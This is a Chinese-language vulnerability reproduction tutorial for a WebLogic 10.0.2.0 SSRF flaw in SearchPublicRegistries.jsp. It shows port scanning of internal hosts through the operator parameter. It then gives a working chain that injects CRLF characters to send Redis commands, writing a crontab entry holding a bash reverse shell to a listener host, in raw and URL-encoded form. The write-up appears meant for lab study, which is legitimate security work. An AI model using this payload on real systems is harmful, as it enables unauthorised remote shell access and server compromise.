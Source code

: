     Oracle WebLogic Server 10.0.2.0

**redis简介**

    Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API

    它通常被称为数据结构服务器，因为值（value）可以是 字符串(String), 哈希(Hash), 列表(list), 集合(sets) 和 有序集合(sorted sets)等类型。

  

**漏洞复现**

浏览器访问存在漏洞的地址 SearchPublicRegistries.jsp 

```
http://192.168.31.187:7001/uddiexplorer/SearchPublicRegistries.jsp
```

     1.使用burp抓包后看到参数operator的参数是一个url，这个就是利用点 ，构造请求，通过改变url的端口来做一个端口检测 ( 通过错误的不同，即可探测内网状态。)

    可访问的端口将会得到错误，一般是返回状态码（如下图）

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

    修改为一个不存在的端口，将会返回错误`could not connect over HTTP to server`。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

    如果访问的非http协议（内网），则会返回`did not have a valid SOAP content-type`。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**利用redis反弹shell**

weblogic的ssrf有一个比较大的特点，其虽然是一个GET请求，但是我们可以通过传入**%0a%0d**来注入换行符，而某些服务(如redis)是通过换行符来分隔每条命令，也就是说我们可以通过该SSRF攻击内网中的redis服务器。首先通过ssrf探测内网中的redis服务器，通常redis端口为6379

    1.首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*）

    2.构造redis反弹shell命令

```
`test``set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.191.3/4444 0>&1\n\n\n\n"``config set dir /etc/``config set dbfilename crontab``save``aaa`
```

  

    3.绕过拦截

```
http://ip/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn%2A%20%2A%20%2A%20%2A%20%2A%20root%20bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E191%2E3%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa%0A%0A%0D%0A
```

    4.使用nc(windows)监听4444端口

    5.将url编码后的payload使用POST请求发送

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
